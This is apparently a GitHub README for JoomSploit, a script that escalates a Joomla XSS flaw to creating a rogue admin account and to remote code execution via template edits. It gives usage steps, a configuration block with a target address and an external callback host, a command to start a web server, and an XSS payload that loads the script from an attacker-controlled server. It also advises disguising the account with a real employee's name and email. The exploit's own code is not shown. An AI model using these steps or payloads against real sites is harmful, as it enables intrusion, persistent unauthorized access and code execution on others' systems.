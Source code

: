 
<h1 align="center">
  <br>
  <img src="https://github.com/nowak0x01/JoomSploit/assets/96009982/f77abced-baca-4ef5-89a4-a949b4ac6806" alt="JoomSploit" width="300">
</h1>
<h4 align="center">Joomla Exploitation Script that elevate XSS to RCE or Others Critical Vulnerabilities</a>.</h4>

<p align="center">
  <a href="#about">About</a>  -
  <a href="#key-features">Key Features</a>  -
  <a href="#how-to-use">How To Use</a>  -
  <a href="#examples">Examples</a>  -
  <a href="#contributing">Contributing</a>
</p>

![screenshot](https://github.com/nowak0x01/JoomSploit/assets/96009982/4e42f24e-2e42-4159-a39c-0884350fa57a)

## About
_**JoomSploit**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in Joomla CMS.

## Key Features

* _**Privilege Escalation**_
  - Creates an user in Joomla.
* _**(RCE) Built-In Templates Edit**_
  - Edit a Built-In Templates in Joomla.
* _**(Custom) Custom Exploits**_
  - Custom Exploits for Third-Party Joomla Plugins.
  
## How To Use
https://github.com/nowak0x01/JoomSploit/assets/96009982/216af695-1d46-4a3a-85aa-17858b49e6f0

<br>

**1\) Clone the Repository**
```bash
git clone https://github.com/nowak0x01/JoomSploit
```

**2\) Edit the script by selecting the desired function and modifying its variable values.** (Example: _**JLCreateAccount**_)
```
// ************************************ ~% Variables %~ ************************************ //

var Target = "http://10.5.87.12:8000/"; // Ex: https://192.168.1.99:6731/joomla/
var Callback = "https://prkiw0jsy7n0dj9qknrm57h9006ruji8.oastify.com/"; // Ex: https://collaborator.oastify.com/ (optional) (only if you want to receive feedback at each stage).

// ************************************ ~% Functions %~ ************************************ //

// JLCreateAccount(); // (Privilege Escalation) - Creates an user in Joomla.
// JLEditTemplates(); // (RCE) - Edit Templates in Joomla.
// CustomExploits(); // (Custom) - Custom Exploits for Third-Party Joomla Plugins.

function JLCreateAccount() {

    /* ************************************************************************************************************************************************ */
    var Username = "nowak";         // (It is recommended to use a valid employee name from the target company). - <Mandatory>
    var Name = "Hudson Nowak";                 // Account name, Ex: Robert Silva. - <Mandatory>
    var Password = `j^QEkyvd7*g3`;          // (Password minimum length: 12) [weak password are allowed]. - <Mandatory>
    var Email = "nowak@example.com";  // Ex: user@company.net (It is recommended to use a business email from the target company) (No email will be sent to the email address entered). - <Mandatory>
    /* ************************************************************************************************************************************************ */
```

**3\) Start a web server**
```bash
php -S 0.0.0.0:80 -t .
```

**4\) Go to the Joomla XSS vector and include** _**JoomSploit.js**_
```
https://example.com/plugin.php?s=<script%20src="//VPS/JoomSploit.js"></script>
```

## Examples
🎋 **_JLCreateAccount()_ - Creates an user in Joomla.**

https://github.com/nowak0x01/JoomSploit/assets/96009982/39311e64-36ba-4e7e-988b-d6c900a823e0

🐉 **_JLEditTemplates()_ - Edit a Built-In Templates in Joomla.**

https://github.com/nowak0x01/JoomSploit/assets/96009982/36dc82ee-d2cf-4f04-93d2-1d01221add19

⭐️ **_CustomExploits()_ - Custom Exploits for Third-Party Joomla Plugins**.<br>
// pending

<br>

# Contributing
If you're interested in contributing, whether by adding new exploit functions to `CustomExploits()` or enhancing the existing code, your efforts would be immensely appreciated. Your contributions will play a key role in making this project even better😊.
<pre>
                               /T /I
                              / |/ | .-~/
                          T\ Y  I  |/  /  _
         /T               | \I  |  I  Y.-~/
        I l   /I       T\ |  |  l  |  T  /
     T\ |  \ Y l  /T   | \I  l   \ `  l Y
 __  | \l   \l  \I l __l  l   \   `  _. |
 \ ~-l  `\   `\  \  \\ ~\  \   `. .-~   |
  \   ~-. "-.  `  \  ^._ ^. "-.  /  \   |
.--~-._  ~-  `  _  ~-_.-"-." ._ /._ ." ./
 >--.  ~-.   ._  ~>-"    "\\   7   7   ]
^.___~"--._    ~-{  .-~ .  `\ Y . /    |
 <__ ~"-.  ~       /_/   \   \I  Y   : |
   ^-.__           ~(_/   \   >._:   | l______
       ^--.,___.-~"  /_/   !  `-.~"--l_ /     ~"-.
              (_/ .  ~(   /'     "~"--,Y   -=b-. _)         JoomSploit (https://github.com/nowak0x01/JoomSploit)
               (_/ .  \  :           / l      c"~o \
                \ /    `.    .     .^   \_.-~"~--.  )
                 (_/ .   `  /     /       !       )/
                  / / _.   '.   .':      /        '
                  ~(_/ .   /    _  `  .-<_
                    /_/ . ' .-~" `.  / \  \          ,z=.
                    ~( /   '  :   | K   "-.~-.______//
                      "-,.    l   I/ \_    __{--->._(==.
                       //(     \  <    ~"~"     //
                      /' /\     \  \     ,v=.  ((
                    .^. / /\     "  }__ //===-  `
                   / / ' '  "-.,__ {---(==-    @Author: Hudson Nowak
                 .^ '       :  T  ~"   ll
                / .  .  . : | :!        \\
               (_/  /   | | j-"          ~^
                 ~-<_(_.^-~"
</pre>
